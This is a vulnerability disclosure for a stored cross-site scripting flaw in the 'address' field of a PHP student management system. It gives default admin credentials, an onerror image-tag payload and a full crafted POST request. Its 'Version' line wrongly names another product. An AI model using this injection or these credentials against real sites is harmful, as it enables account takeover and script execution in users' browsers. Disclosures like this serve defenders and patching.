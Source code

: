 # Online student management system  - 'address' Stored Cross-Site Scripting(XSS)


#### Exploit Title: Online student management system  - 'address' Stored Cross-Site Scripting(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/16137/online-student-management-system-php-free-download.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=16137&title=Online+student+management+system+in+php+free+download
#### Version: Badminton Center Management System
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Online student management system s' does not filter the content correctly at the "addres" module, resulting in the generation of stored XSS.

#### Payload used:

`<img src="" onerror="alert(111111111)">`

#### Proof of Concept

1. Login the CMS. 
   Admin Default Access:

   Username : mayurik
   Password : rootadmin

   

2. Open Page http://192.168.67.10/manage-students.php, Click the button to jump to the editing page.

   ![image-20231218155025560](img/Online student management system(XSS)/image-20231218155025560.png)

   http://192.168.67.10/edit-student-detail.php?editid=1

   ![image-20231218160309450](img/Online student management system(XSS)/image-20231218160309450.png)

   

   

3. Put XSS payload   in the "address"  ;

   send package

   

   ```
   POST /edit-student-detail.php?editid=1 HTTP/1.1
   Host: 192.168.67.10
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Content-Type: multipart/form-data; boundary=---------------------------33710977241900181722413261447
   Content-Length: 1790
   Origin: http://192.168.67.10
   Connection: close
   Referer: http://192.168.67.10/edit-student-detail.php?editid=1
   Cookie: PHPSESSID=41k6lb8lgvu5aiq908id5u1qgh
   Upgrade-Insecure-Requests: 1
   
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="stuname"
   
   Raghav Jain
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="stuemail"
   
   raghav@gmail.com
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="stuclass"
   
   1
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="gender"
   
   Male
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="dob"
   
   2023-02-12
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="stuid"
   
   FSA-1001
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="fname"
   
   Shantilal
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="mname"
   
   Jiya
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="connum"
   
   9090909090
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="altconnum"
   
   8080808080
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="address"
   
   <img src="" onerror="alert(111111111)">
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="uname"
   
   raghav@gmail.com
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="password"
   
   1b89744e90c7de7e76f25f281b924f44
   -----------------------------33710977241900181722413261447
   Content-Disposition: form-data; name="submit"
   
   
   -----------------------------33710977241900181722413261447--
   
   ```

   

   


4. back to http://192.168.67.10/edit-student-detail.php?editid=1 We can see the alert.;

   

   ![image-20231218155743009](img/Online student management system(XSS)/image-20231218155743009.png)

   

